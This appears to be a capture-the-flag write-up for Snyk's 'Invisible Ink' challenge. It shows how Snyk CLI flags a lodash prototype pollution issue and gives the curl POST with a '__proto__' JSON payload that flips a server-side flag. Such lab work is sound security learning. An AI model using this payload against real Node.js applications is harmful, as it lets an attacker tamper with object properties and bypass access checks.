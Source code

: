 # Objective

Retrive a flag throuh a POST request manipulating the value through a vulnerability

# Resources to install

***Link***: https://ctf-101.snyk.io/challenges#Invisible%20Ink

***Server***: http://35.211.53.53:8000/

Expose hidden vulnerabilities in the web application.

***Hint***: download Snyk CLI scans to the packet.json -> 
https://github.com/snyk/snyk#installation

Install npm if you don't have ii yet:

```
$sudo apt-get install npm
```

Now install snyk CLI:

```
$npm install snyk@latest -g
```

You need to access to snyk before you can run the command to test the package->

```
$snyk auth  (I suggest to access with gitHub)
```

Now you have to install the package

***what is package.json*** -> https://blog.ezekielekunola.com/understanding-the-package.json-file

```
$npm install package.json
```

Run this command into the folder with package.json, where you have just ran the previous command:

```
$snyk monitor
```

This command will show you the current vulnerabilities found.
Possible  response:

Explore this snapshot at https://app.snyk.io/org/emanuelepicas/project/3137722f-04f4-4af7-8a0e-2952b5192a51/history/f2123751-8d69-448f-83d6-87c2d005d96b

Notifications about newly disclosed issues related to these dependencies will be emailed to you.

Click on the link generated here you will find the current Vunerabilities



Browsing into the ***server*** to hack, you will find a response, which will suggest you a request to do.
Below there is the command to run:

```
$curl -X POST 35.211.53.53:8000/echo -H "Content-Type: application/json" -d '{"message": "ping"}' 
```

***Response***

{"userID":"::ffff:82.57.151.149","time":1651490382169,"message":"ping","flag":"disabled"} 

If we take a look at the file index.js, we can see that the script will output the flag if the value of the flag is on true.


We need to manipulate the object to retrive the flag using a vulnerabilities that we can find from the previous command: "snyk monitor"

A good one could be prototipe pollution:

https://security.snyk.io/vuln/SNYK-JS-LODASH-567746

This could be a possible solution:

```
$curl -X POST 35.211.53.53:8000/echo -H "Content-Type: application/json" -d '{"message":"ping","__proto__":{"flag":"true"}}'
```

***Response***

{"userID":"::ffff:82.57.151.149","time":1651497940769,"message":"ping","flag":"SNYK{FLAGTOFIND}"} 

# Reference

***understanding prototype*** -> https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/
